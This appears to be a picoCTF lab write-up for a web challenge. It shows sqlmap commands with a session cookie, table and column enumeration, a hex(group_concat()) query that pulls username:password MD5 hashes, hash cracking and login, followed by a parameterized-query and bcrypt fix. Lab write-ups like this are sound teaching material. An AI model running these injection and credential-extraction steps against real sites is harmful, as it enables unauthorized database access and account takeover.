










# Sql Map1

**Category:** Web Exploitation
**Difficulty:** Medium
**Author:** Aditya Sudhansu

---

## Challenge Description

The challenge provides a web application with a search feature and hints pointing toward SQL Injection and weak password hashing.

The objective is to exploit the vulnerable search parameter, extract user credentials from the database, crack the password hash, authenticate as a valid user, and retrieve the flag.

Main hints:

```text
Search box looks interesting.
Passwords should not be stored in md5 format.
CrackStation is a great online tool for cracking hashes.
```

---

## Initial Access

After launching the instance, I opened the web application.

```text
http://lonely-island.picoctf.net:<PORT>/
```

The application presented a login and registration page.



Since access to the search feature required authentication, I registered a normal user account.

```text
Username: test
Password: test
```


After logging in, I reached the search page.



---

## Identifying the Vulnerable Parameter

The search feature sends a request to:

```text
/vuln.php?q=test
```

The interesting parameter is:

```text
q
```

Example URL:

```text
http://lonely-island.picoctf.net:<PORT>/vuln.php?q=test
```



The application also uses a PHP session cookie:

```text
PHPSESSID=<PHPSESSID>
```

This cookie was required when running sqlmap, because the vulnerable page was only accessible after login.

---

## Confirming SQL Injection with sqlmap

I used sqlmap against the `q` parameter.

```bash
sqlmap -u "http://lonely-island.picoctf.net:<PORT>/vuln.php?q=test" \
  --cookie="PHPSESSID=<PHPSESSID>" \
  -p q \
  --batch \
  --technique=B
```

sqlmap confirmed that the `q` parameter was vulnerable and identified the backend database as SQLite.

```text
Parameter: q (GET)
Type: boolean-based blind
back-end DBMS: SQLite
```



---

## Enumerating Tables

Because the backend DBMS was SQLite, database enumeration with `--dbs` was not useful. Instead, I used common table checks.

```bash
sqlmap -u "http://lonely-island.picoctf.net:<PORT>/vuln.php?q=test" \
  --cookie="PHPSESSID=<PHPSESSID>" \
  -p q \
  --batch \
  --technique=B \
  --common-tables
```

sqlmap found two interesting tables:

```text
users
flags
```



---

## Enumerating Columns

Next, I enumerated common columns in the `users` table.

```bash
sqlmap -u "http://lonely-island.picoctf.net:<PORT>/vuln.php?q=test" \
  --cookie="PHPSESSID=<PHPSESSID>" \
  -p q \
  --batch \
  --technique=B \
  -T users \
  --common-columns \
  --threads=5
```

The important columns were:

```text
username
password
```



---

## Extracting User Hashes

Basic blind extraction was slow and sometimes returned blank output. To make the output easier to extract, I used SQLite’s `hex()` function with `group_concat()`.

The query used was:

```sql
SELECT hex(group_concat(username||':'||password, ',')) FROM users
```

Final sqlmap command:

```bash
sqlmap -u "http://lonely-island.picoctf.net:<PORT>/vuln.php?q=test" \
  --cookie="PHPSESSID=<PHPSESSID>" \
  -p q \
  --flush-session \
  --batch \
  --technique=BEUS \
  --level=3 \
  --risk=2 \
  --sql-query="SELECT hex(group_concat(username||':'||password, ',')) FROM users" \
  --threads=5
```

sqlmap also discovered a UNION-based injection with 2 columns, which made the extraction faster.



---

## Decoding the HEX Output

The extracted value was HEX-encoded, so I decoded it using CyberChef with the **From Hex** operation.



The decoded output contained usernames and password hashes:

```text
ctf-player:7a67ab5872843b22b5e14511867c4e43
noaccess:83806b490e28a7f8e6662646cbdbff1a
suspicious:eb1f3ba6901c65d9b2e09a38f560758b
malicious:a669d60c31ad3d05b9e453c8576c7aab
ghost:8d2379c40704bed972e55680be2355e2
admin:5a9a79d9fa477ed163b89088681672c9
test:098f6bcd4621d373cade4e832627b4f6
```

The hashes were 32 hexadecimal characters long, which matched the MD5 format.

---

## Cracking the MD5 Hashes

I submitted the extracted hashes to CrackStation.



CrackStation successfully cracked the hash for the `ctf-player` account:

```text
7a67ab5872843b22b5e14511867c4e43 -> dyesebel
```

So the valid credentials were:

```text
Username: ctf-player
Password: dyesebel
```

The `admin` hash was not found, but cracking the `ctf-player` account was enough to authenticate and access the protected area.

---

## Logging In

I returned to the application and logged in using the cracked credentials:

```text
Username: ctf-player
Password: dyesebel
```


After logging in, the application displayed the protected area and revealed the flag.



---

## Attack Flow

```text
Register a normal user
    ↓
Log in and access the search page
    ↓
Identify /vuln.php?q=test as the search endpoint
    ↓
Use sqlmap with PHPSESSID cookie
    ↓
Confirm SQL Injection in the q parameter
    ↓
Identify SQLite as the backend DBMS
    ↓
Use common table checks
    ↓
Find users and flags tables
    ↓
Find username and password columns
    ↓
Extract username:password hashes using hex(group_concat(...))
    ↓
Decode HEX output
    ↓
Identify MD5 password hashes
    ↓
Crack ctf-player hash with CrackStation
    ↓
Log in as ctf-player
    ↓
Retrieve the flag
```

---

## Why the Vulnerability Works

The search feature was vulnerable because user input from the `q` parameter was included in a database query without proper parameterization.

The vulnerable parameter was:

```text
q
```

sqlmap confirmed that this parameter could be abused to inject SQL and extract data from the SQLite database.

The challenge also used weak password storage. Passwords were stored as unsalted MD5 hashes, which made them vulnerable to cracking with public hash databases.

---

## Secure Fix

To prevent this vulnerability, the application should use parameterized queries instead of dynamically building SQL statements with user input.

A secure query should separate SQL code from user-controlled data.

Example concept:

```php
$stmt = $db->prepare("SELECT * FROM flags WHERE name LIKE ?");
$stmt->execute(["%" . $q . "%"]);
```

Password storage should also be improved. Instead of MD5, passwords should be hashed using a modern password hashing algorithm such as:

```text
bcrypt
Argon2
PBKDF2
```

Passwords should also be salted automatically by the hashing function.

---

## Tools Used

```text
Browser
Burp Suite
sqlmap
CyberChef
CrackStation
Linux terminal
```

---

## Key Takeaways

* Search parameters are common SQL Injection targets.
* Authenticated pages may require valid cookies when using sqlmap.
* SQLite does not use database enumeration like MySQL, so table enumeration should be done directly.
* When blind extraction is unstable, HEX encoding can make output easier to retrieve.
* Unsalted MD5 hashes are weak and can often be cracked using public databases.
* A non-admin cracked user can still be enough if the protected page only requires authentication.

---

## Final Flag

```text
picoCTF{...REDACTED...}
```
